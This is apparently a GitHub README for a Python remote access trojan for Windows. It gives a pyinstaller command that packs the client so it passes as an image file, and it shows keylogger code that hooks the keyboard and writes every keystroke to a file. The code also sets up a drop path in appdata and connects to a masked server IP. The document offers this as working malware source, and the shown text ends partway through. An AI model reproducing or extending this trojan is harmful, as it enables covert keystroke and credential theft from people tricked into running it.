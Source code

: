 # Rat
木馬程式 python on windows

## 改完程式碼可以打包 偽裝圖片
```bash
$wine /home/kali/.wine/drive_c/python/Scripts/pyinstaller.exe client.py --onefile --noconsole --add-data "nttu.png;." --icon "nttu.ico"

```

## server.py程式碼
```python
#!/usr/bin/python
import subprocess
import socket
import json
import time
import os
import sys
import shutil
import base64
import requests
import ctypes
from mss import mss
import threading
import pynput.keyboard

ServerIP="210.240.#.#"先遮起來
ServerPort=54321
File_Location=os.environ["appdata"] + "\lol.exe"
ImageFile="\\nttu.png"
#kl_file = os.environ["appdata"]+"\lol.txt"
kl_file = 'lol.txt'
keys=""

def process_keys(key):
    global keys
    try:
        keys +=str(key.char)
    except AttributeError:
        if key==key.space:
            keys+=" "
        elif key==key.enter:
            key+="\n"

        elif key==key.up:
            exit

        elif key==key.down:
            exit
        elif key==key.left:
            exit
        elif key==key.right:
            exit
        else:
            keys=keys + " ["+str(key) + "] " 
def writekeys():
    global keys  
    with open(kl_file,"a") as klfile:
        klfile.write(keys)
        keys=""
```